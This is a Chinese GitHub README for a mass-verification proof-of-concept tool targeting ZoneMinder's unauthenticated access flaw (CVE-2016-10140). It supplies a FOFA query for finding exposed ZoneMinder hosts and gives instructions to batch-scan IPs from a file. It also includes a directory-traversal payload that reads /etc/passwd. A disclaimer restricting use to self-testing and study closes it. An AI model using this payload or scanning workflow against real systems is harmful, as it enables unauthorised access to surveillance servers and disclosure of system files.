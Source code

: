### Zoneminder 未授权访问（CVE-2016-10140）Poc--批量验证脚本

## 漏洞描述

ZoneMinder是一款开源视频监控系统.当异常事件发生时，你就可以收到e-mail或简讯通知。ZoneMinder v1.30和v1.29捆绑的Apache HTTP Server配置中存在信息泄露和认证绕过漏洞，允许远程未认证攻击者浏览web根目录下的所有目录。

## FOFA语法

app="ZoneMinder"

## 使用方法

```
1.将准备检测的IP地址放入ip.txt文件中
2.运行python3 exp.py
```
<img width="581" alt="image" src="https://user-images.githubusercontent.com/67818638/146936773-23629846-875b-49da-ab1e-6629597d8032.png">

## PAYLOAD

```
/?view=file&path=/../../../../../etc/passwd
```

<img width="1437" alt="image" src="https://user-images.githubusercontent.com/67818638/146936822-1f4bf412-8c93-43da-9303-5dc9b03ec74d.png">

## 注意事项
本工具仅提供给安全测试人员进行安全自查使用 用户滥用造成的一切后果与作者无关 使用者请务必遵守当地法律 本程序不得用于商业用途，仅限学习交流

<img width="318" alt="iShot2021-12-23 15 42 05" src="https://user-images.githubusercontent.com/67818638/147206848-6090876d-d029-4ffd-a6a8-ee4600071404.png">
